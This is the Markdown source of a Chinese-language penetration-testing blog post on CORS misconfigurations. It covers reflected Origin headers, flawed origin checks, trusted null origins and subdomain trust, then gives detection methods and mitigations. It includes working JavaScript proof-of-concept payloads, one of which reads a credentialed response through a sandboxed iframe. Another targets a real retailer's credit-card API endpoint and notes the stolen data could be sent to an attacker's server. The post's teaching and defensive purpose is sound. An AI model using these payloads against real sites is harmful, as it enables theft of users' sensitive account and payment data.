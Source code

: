 ```yaml
---
title: CORS漏洞检测和利用方式
comments: true
date: 2022-01-12 21:10:57
tags: ["CORS漏洞", "跨域"]
categories:
- 渗透测试
cover:
top_img:
description:
---
```


## 简介

CORS全称`Cross-Origin Resource Sharing`, 跨域资源共享，是HTML5的一个新特性，已被所有浏览器支持，不同于古老的jsonp只能get请求，被发明出来就是为了干掉JSONP的，因为用的多，其安全问题也更加普遍。

解决了跨域情况下资源的请求与传输。



## CORS实现原理



> 有个常见的关于同源策略的误区需要指出一下，同源策略并不限制请求的发起和响应，只是浏览器拒绝了js对响应资源的操作



CORS本质上就是使用各种头信息让浏览器与服务器之间进行交流，上面提到的名单就是用下面的http头字段来控制的：

![cors的http字段](http://image.geoer.cn/img/image-20220112212319982.png)

其中比较重要的相应头为：

```
Access-Control-Allow-Origin: http://a.com  表示服务端接受来自http://a.com的跨域请求
Access-Control-Allow-Credentials: true  表示是否允许发送Cookie，true即发送cookie
```





## CORS常见安全问题

实际中我们可能会遇到各种场景，所以CORS也很容易出现配置上的安全问题，大概有如下几种：

### 1 反射Origin头

当管理员想允许多个域名跨域请求时，以下写法都是不允许的

```bash
Access-Control-Allow-Origin: http://a.com, http://c.com
#或者
Access-Control-Allow-Origin: http://*.a.com
```

因为CORS标准规定，Access-Control-Allow-Origin**只能配置为单个origin, null或***。

有些开发者为了方便，直接使用请求者的origin作为Access-Control-Allow-Origin的域名，例如下面的Nginx配置:

```bash
add_header "Access-Control-Allow-Origin" $http_origin;
add_header "Access-Control-Allow-Credentials" "true";

# 这种配置非常危险，相当于任意网站可以直接跨域读取其资源内容。
```





### 2 Origin 校验错误

前面那种反射Origin的做法过于暴力，一般不可取，常用做法是通过自定义规则来校验Origin头，但是在校验过程中也会出现错误。这些错误可以分为四类：

- **前缀匹配**：例如想要允许example.com访问，但是只做了前缀匹配，导致同时信任了example.com.attack.com的访问。
- **后缀匹配**：例如想要允许example.com访问，由于后缀匹配出错，导致允许attackexample.com访问。
- **没有转义`.`**：例如想要允许www.example.com访问，但正则匹配没有转义`.`，导致允许wwwaexample.com访问。
- **包含匹配**：例如想要允许example.com，但是Origin校验出错，出现允许ample.com访问。



### 3 信任null

当配置信任名单为null，可以用来和本地file页面共享数据，如下所示：

```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

但是攻击者也可以构造Origin为null的跨域请求，比如通过iframe sandbox：

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,<script>
var xhr=new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
        alert(xhr.responseText);
    }
}
xhr.open("GET", "http://www.a.com/a.php", true);
xhr.withCredentials = true;
xhr.send();</script>'>
</iframe>
```



### 4 HTTPS域信任HTTP域

但是如果该HTTPS网站配置了CORS且信任HTTP域，那么中间人攻击者可以先劫持受信任HTTP域，然后通过这个域发送跨域请求到HTTPS网站，间接读取HTTPS域下的受保护内容.



### 5 信任自身全部子域

很多网站为了方便会将CORS配置为信任全部自身子域，这种配置会扩大子域 XSS的危害。

比如某子站存在xss时，可以通过此xss发送跨域请求，从而获取敏感内容。



### 6 Origin:*与 Credentials:true 共用

`Access-Control-Allow-Origin:*`用于表示允许任意域访问，这种配置只能用于共享公开资源。

所以下面这种配置是错误的，浏览器不允许这两种配置同时出现。(对于共享公开资源，不应该需要身份认证)

```
Access-Control-Allow-Origin: * 
Access-Control-Allow-Credentials: true 
```



### 7 缺少Vary: Origin头

如果一个资源享有多个域名，它需要对不同域名的请求包生成不同的Access-Control-Allow-Origin头。如果一个请求的响应被缓存，且返回中没有Vary: Origin字段，可能会导致其它域名的请求失效。

比如c.com同时允许a.com和b.com共享。c.com资源内容首先被a.com脚本跨域访问后被缓存，其中缓存响应头为`Access-Control-Allow-Origin:http://a.com`这时，b.com脚本则不能读取缓存响应内容，因为缓存响应头是允许a.com共享，而不是b.com。





## 检测方式

F1.curl访问网站　　

```
curl http://www.xpshuai.cn -H "Origin: https://test.com" -I
```

检查返回包的 Access-Control-Allow-Origin 字段是否为https://test.com



F2.burpsuite发送请求包，查看返回包



F3.也可以用开源工具：https://github.com/chenjj/CORScanner



F4.对于网站漏洞的挖掘可以使用burp，先勾选上proxy --> options --> Origin --> match and replace里面的Add spoofed CORS origin。

然后在网站观察功能点，最后在HTTP history来筛选带有CORS头部的值，然后用以上工具查看是否有配置缺陷。

检测到CORS配置错误以后，以下有一份poc可用来写报告（感谢大佬）：

```javascript
<script>
    //以受害者身份，发送一个跨域请求给目标url
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //由于目标站点的CORS配置错误，我们可以读取到相应包
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //展示相应包到这个页面上，作为hacker还可以将内容发送到自己的服务器
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>

```



## 危害

1.同于csrf跨站请求伪造，发送钓鱼链接，读取用户敏感数据。

​	还可以获取cookie，针对http-only js代码无法读取的情况



2.结合xss漏洞利用cors漏洞，针对http_only js代码无法读取











## 漏洞防范

- 不要盲目反射Origin头
- 严格校验Origin头，避免出现权限泄露
- 不要配置Access-Control-Allow-Origin: null
- HTTPS网站不要信任HTTP域
- 不要信任全部自身子域，减少攻击面
- 不要配置Origin:*和Credentials: true
- 增加Vary: Origin头







## 参考文章

[CORS介绍及其漏洞检测 - SAUCERMAN (saucer-man.com)](https://saucer-man.com/information_security/331.html)

